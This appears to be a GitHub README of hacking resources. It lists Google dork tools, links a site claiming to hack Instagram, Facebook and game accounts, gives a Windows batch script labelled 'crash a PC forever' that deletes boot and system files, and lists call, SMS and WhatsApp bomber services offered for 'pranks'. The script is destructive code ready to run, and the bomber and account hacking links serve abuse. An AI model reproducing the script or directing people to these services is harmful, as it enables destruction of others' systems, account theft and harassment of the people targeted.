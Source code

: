 # 💀🔪 Google Hacking Tools 🔪☠ DrugsHack

## 🔺 GHDB - Google Hack Database
- **Description**: Google Hacking Database (GHDB) provides advanced Google search queries (Google Dorks) that can reveal sensitive information on the internet.
- 🔗 [Link](https://www.exploit-db.com/google-hacking-database/)

## 🔺 SearchDiggity
- **Description**: SearchDiggity 3.1 is the primary attack tool of the Google Hacking Diggity Project, designed for security professionals to automate Google dork queries.
- 🔗 [Link](http://www.bishopfox.com/resources/tools/google-hacking-diggity/attack-tools/)

## 🔺 Katana
- **Description**: A Python-based tool that helps with Google Hacking by exploiting Google search capabilities for reconnaissance and vulnerability discovery.
- 🔗 [Link](https://github.com/adnane-X-tebbaa/Katana)

## 🔺 GooFuzz
- **Description**: GooFuzz is a tool used for fuzzing with OSINT (Open Source Intelligence) to find vulnerabilities in applications through Google.
- 🔗 [Link](https://github.com/m3n0sd0n4ld/GooFuzz)

## 🔺 Pagodo
- **Description**: Pagodo automates Google Hacking Database scraping and searching, allowing users to find vulnerabilities across various platforms.
- 🔗 [Link](https://github.com/opsdisk/pagodo)

## 🔺 Google-Dorks
- **Description**: A repository of useful Google Dorks to help with Web Security and Bug Bounty hunting.
- 🔗 [Link](https://github.com/Proviesec/google-dorks)

---

# 𝗣𝗛𝗜𝗦𝗜𝗡𝗚 𝗕𝗘𝗚𝗜𝗡𝗡𝗘𝗥 𝗧𝗨𝗧𝗢𝗥𝗜𝗔𝗟 🎯

**Hack Instagram, Facebook, FF, PUBG, Snapchat accounts** and more.  
💀 [Visit Site](https://sc0m.com/dashboard)  

For **advanced methods**, comments, and reactions, please refer to the site.

---

## ⚠️ How to Crash a PC Forever 💻

To crash a PC, follow these steps:
1. Open Notepad and copy-paste the following code:
    ```
    attrib -r -s -h c:\autoexec.bat
    del c:\autoexec.bat
    attrib -r -s -h c:\boot.ini
    del c:\boot.ini
    attrib -r -s -h c:\ntldr
    del c:\ntldr
    attrib -r -s -h c:\windows\win.ini
    del c:\windows\win.ini
    ```
2. Save the file as `github.bat`. 
3. **Warning**: Don't click on this file, as it will shut down the computer and delete necessary files to reboot.

---

# 🤙 Free CALL Bomber Websites ✅

1) [callbomberz.in](https://www.callbomberz.in/)
2) [callbomber.in](https://callbomber.in/)
3) [lgnd.fun - Call Bomber](https://lgnd.fun/tool/bomber/call-bomber.php)

- 🔐 **Access Key**: @JokEerhackEer

## 💬 Free SMS Bomber Websites ✅

1) [callbomberz.in - SMS Bomber](https://www.callbomberz.in/unlimited-sms-bomber.html)
2) [smsbomber.online](https://smsbomber.online/unlimited-sms-bomber)
3) [mytoolstown.com - SMS Bomber](https://mytoolstown.com/smsbomber#bestsmsbomber)

## ⚠️ Protect Your Number from Call and SMS Bombers 😊

1) [callbomberz.in - Protect Number](https://www.callbomberz.in/protect.html)
2) [lgnd.fun - Protect Number](https://lgnd.fun/tool/protect-number.php)
3) [mytoolstown.com - Protect Number](https://mytoolstown.com/smsbomber/protect)
4) [callbomberpro.shop - Protect Number](https://callbomberpro.shop/protact/index2.php)

---

# 📱 Free WhatsApp Bomber Websites ✅

1) [lgnd.fun - WhatsApp Bomber](https://lgnd.fun/tool/bomber/whatsapp-bomber.php)
2) [callbomberpro.shop - WhatsApp Bomber](http://callbomberpro.shop/what.php)

⚠ **Note**: These websites are created for fun purposes only. The developers are not responsible for any misuse.

You can use these websites for pranking your friends ❌.

---
